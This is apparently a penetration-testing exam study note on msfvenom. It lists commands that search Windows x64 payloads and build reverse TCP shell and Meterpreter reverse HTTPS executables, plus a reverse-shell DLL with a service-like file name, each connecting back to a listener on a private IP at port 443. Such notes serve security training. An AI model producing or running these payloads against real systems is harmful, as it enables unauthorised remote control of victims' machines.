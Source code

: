 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/3-msf-venom/"}
---
```


---------
Search for payload:
```
msfvenom -l payloads --platform windows --arch x64
```

Non-staged 64-bit Windows Reverse TCP Payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Non-staged 64-bit Windows Reverse HTTPS Payload:
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.199 LPORT=443 -f exe -o met.exe
```

64-bit DLL Payload:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll
```

